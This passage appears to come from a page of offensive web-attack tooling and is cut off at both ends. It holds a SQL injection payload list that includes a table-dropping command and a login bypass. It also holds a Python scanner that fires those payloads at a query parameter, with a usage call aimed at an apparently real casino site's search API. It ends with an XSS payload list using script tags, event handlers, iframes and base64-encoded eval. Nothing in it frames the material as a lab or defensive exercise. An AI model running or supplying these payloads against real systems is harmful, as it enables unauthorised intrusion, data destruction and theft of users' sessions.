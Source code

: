 ```python
    "1' ORDER BY 3--",
    "admin'--",
    "'; DROP TABLE users--",
]

def test_sqli(url, param, headers=None):
    print(f"[*] Testing {url} parameter: {param}")
    
    for payload in SQL_PAYLOADS:
        test_url = f"{url}?{param}={payload}"
        
        try:
            response = requests.get(test_url, headers=headers, timeout=5)
            
            # Check for SQL errors
            sql_errors = [
                "SQL syntax",
                "mysql_fetch",
                "ORA-01",
                "PostgreSQL",
                "sqlite3",
            ]
            
            for error in sql_errors:
                if error.lower() in response.text.lower():
                    print(f"[+] SQLI FOUND!")
                    print(f"    Payload: {payload}")
                    print(f"    Error: {error}")
                    return True
                    
        except Exception as e:
            print(f"[!] Error: {e}")
    
    print(f"[-] No SQLi found")
    return False

# Usage
test_sqli(
    'https://casino.com/api/search',
    'query'
)
```

---

### 5. XSS Payload Generator

```javascript
const XSS_PAYLOADS = [
    // Basic
    "<script>alert(1)</script>",
    "<img src=x onerror=alert(1)>",
    "<svg onload=alert(1)>",
    
    // Event handlers
    "<body onload=alert(1)>",
    "<input onfocus=alert(1) autofocus>",
    "<marquee onstart=alert(1)>",
    
    // Advanced
    "<img src=x onerror=\"eval(atob('YWxlcnQoMSk='))\">",
    "<iframe src=\"javascript:alert(1)\">",
    
    // Mutation XSS
```
